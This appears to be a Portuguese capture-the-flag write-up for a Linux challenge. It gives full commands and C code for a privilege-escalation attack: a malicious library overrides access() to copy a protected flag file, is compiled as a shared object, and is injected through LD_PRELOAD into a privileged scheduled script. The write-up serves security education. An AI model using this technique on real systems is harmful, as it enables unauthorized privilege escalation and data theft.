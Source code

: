 # CTF #4 - Linux Environment 


## Identificação de vulnerabilidades

Primeiramente, começamos por recolher o máximo de informação possível sobre o sistema, de forma a tentar encontrar alguma vulnerabilidade.

O ficheiro **admin_note.txt** deu-nos uma dica, que existe uma vulnerabilidade na tmp folder que nos permitiria chegar à flag. Além disso, depois de ler o ficheiro **main.c**, através do comando **cat**, descobrimos que, possivelmente, existe um ficheiro chamado ***flag.txt*** na folder flags.

``` 
cat main.c
```

Por fim, chegamos à conclusão que o script que corre regularmente no servidor tem mais privilégios que nós, por isso deduzimos que o script estaria relacionado com o ataque também.

Finalmente, tentamos aceder à flags folder, mas não tinhamos permissão.
Com estas informações, começamos a construir um plano com o propósito de, de alguma forma, conseguir root privileges e ter acesso ao ficheiro ***flags.txt***.


## Ataque


O ataque consiste em dar override à função **access()** da standard C library, presente no **main.c**, e fazer uma system call através da função **system()** onde usamos o comando **cat** para copiar o que está no ficheiro ***flag.txt*** para um ficheiro criado por nós.

Primeiro, começamos por criar um ficheiro `lib.c`, que terá o código da nossa malicious library:

```
cat > lib.c

#include <stdio.h>
#include <stdlib.h>

int access(const char *pathname, int mode) {
    system("/usr/bin/cat /flags/flag.txt > /tmp/text.txt");
       return 0;
}
```

O ficheiro `/tmp/text.txt` é um ficheiro temporário criado da seguinte forma :

```
touch text.txt
```

Este ficheiro irá conter o que estiver escrito no ficheiro `/flags/flag.txt`, que, em princípio, é a flag.

Depois disso, compilamos o `lib.c` de forma a torná-lo numa library com os seguintes comandos:

```
gcc -fPIC -g -c lib.c
```

E:

```
gcc -shared -o liblib.so.1.0.1 lib.o -lc
```

Por fim, temos que modificar o ficheiro `env` de forma a adicionar a library `liblib.so.1.0.1` à environment variable `LD_PRELOAD` desta forma:

``` 
cat > env
LD_PRELOAD=/tmp/liblib.so.1.0.1
```

Agora, basta esperar que o my_script.sh rode mais uma vez e a flag estará dentro do text.txt.

No nosso caso era `flag{90069b3c95cdd8df71e65ce0fd7ce815}`
